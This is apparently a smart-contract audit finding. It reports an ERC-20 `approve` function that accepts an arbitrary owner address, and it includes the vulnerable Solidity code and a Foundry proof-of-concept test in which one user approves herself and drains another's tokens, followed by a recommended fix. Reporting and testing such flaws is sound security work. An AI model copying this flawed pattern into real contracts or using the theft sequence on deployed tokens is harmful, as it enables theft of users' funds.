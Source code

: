 ## Summary
The ERC-20 token implementation contains a critical vulnerability in the `approve` function that allows any user to approve token spending on behalf of any other user without authorization.

## Vulnerability Details
The vulnerability exists in the `approve` function implementation:

```solidity
function approve(address owner, address spender, uint256 amount) public {
    allowance[owner][spender] = amount;
    emit Approval(owner, spender, amount);
}
```

Instead of using `msg.sender` as the token owner, the function accepts an arbitrary `owner` address as a parameter. This allows any user to call the function and approve token spending for any other address without requiring permission or ownership of those tokens.

The standard ERC-20 `approve` function should only allow users to set allowances for their own tokens.

## Impact
Critical:

1. Any attacker can grant themselves unlimited spending allowance for any victim's tokens
2. The attacker can then use `transferFrom` to steal all tokens from the victim's address
3. This effectively allows unauthorized access to the entire token supply
4. No special permissions or prior token ownership is required to execute this attack

## PoC
The following test demonstrates the vulnerability:

```solidity
function test_ApprovalTakeover(uint256 _stolenAmount) public {
    _stolenAmount = bound(_stolenAmount, 1, 420420420420420420);

    vm.startPrank(alice);
    challenge.approve(bob, alice, _stolenAmount); // alice approves her own address to spend bob's tokens
    challenge.transferFrom(bob, alice, _stolenAmount); // alice transfers the stolen amount to herself
    vm.stopPrank();

    assertEq(challenge.balanceOf(alice), 420420420420420420 + _stolenAmount);
    assertEq(challenge.balanceOf(bob), 420420420420420420 - _stolenAmount);
}
```

In this proof of concept, Alice is able to:
1. Approve herself to spend Bob's tokens without Bob's consent
2. Transfer Bob's tokens to her own account
3. Successfully steal any amount of tokens from Bob's address

## Recommendation
Change the `approve` function so that it only allows the token owner to set allowances for their own tokens. This prevents unauthorized users from approving spending for other addresses.